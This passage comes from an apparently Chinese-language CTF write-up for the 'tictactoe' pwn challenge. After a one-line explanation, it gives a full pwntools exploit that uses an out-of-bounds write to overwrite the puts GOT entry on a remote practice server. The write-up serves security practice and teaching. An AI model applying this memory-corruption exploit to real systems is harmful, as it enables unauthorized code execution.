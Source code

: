 正常情况下，我们只能修改`5`个字节。但是如果把`dword_804B048`值改成`0`（不为`1`及`-1`都可以），那么我们就能再修改`8`个字节。

```python
import struct
from pwn import *

#context.log_level="debug"
#p=process("./tictactoe")
p=remote("ctf.hackme.quest",7714)

move_addr=0x804B056
init_addr=0x804B048
def tict_init():
    p.recvuntil(b"Play (1)st or (2)nd? ")
    p.sendline(b"1")

    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(b"\x00")
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(init_addr-move_addr).encode())
def tict_change(addr,value):
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(value)
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(addr-move_addr).encode())


elf=ELF("./tictactoe")
puts_got = elf.got["puts"]
tict_init()

change_value=0x8048C46
change_bytes=struct.pack("<I",change_value)
print(change_bytes)
for i in range(len(change_bytes)):
    tict_change(puts_got+i,change_bytes[i:i+1])
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
print(p.recv())
p.close()
```

#### 79 Pwn    tictactoe-2
